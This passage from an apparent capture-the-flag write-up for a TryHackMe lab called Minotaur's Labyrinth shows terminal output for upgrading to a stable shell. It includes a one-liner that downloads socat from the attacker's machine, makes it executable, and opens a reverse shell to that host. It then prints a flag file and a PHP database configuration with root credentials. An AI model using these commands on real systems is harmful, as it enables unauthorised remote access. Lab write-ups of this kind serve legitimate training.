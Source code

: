 ```
       valid_lft forever preferred_lft forever
```

And I'm `daemon`!

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

daemon@labyrinth:/opt/lampp/htdocs$ wget http://10.18.61.134/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.18.61.134:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
[...]
daemon@labyrinth:/opt/lampp/htdocs$ stty rows 22 columns 121
daemon@labyrinth:/opt/lampp/htdocs$ export TERM=xterm-256color
daemon@labyrinth:/opt/lampp/htdocs$ ^C
daemon@labyrinth:/opt/lampp/htdocs$ 
```

**Flag3:**
```
daemon@labyrinth:/opt/lampp/htdocs$ cat /home/user/flag.txt
fla9{Redacted}
```

# Privilege Escalation

## daemon to root

**/opt/lampp/htdocs/dbConnect.php:**
```php
<?php
    
    $servername = "localhost";
    $db = "labyrinth";
    $usr = "root";
    $pwd = "";
    //$pwd = "{Redacted}";
    try {
        $conn = new PDO("mysql:host=$servername;dbname=$db", $usr, $pwd);
        $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

        
    } catch (PDOException $e) {     
        die();
    }

?>
```

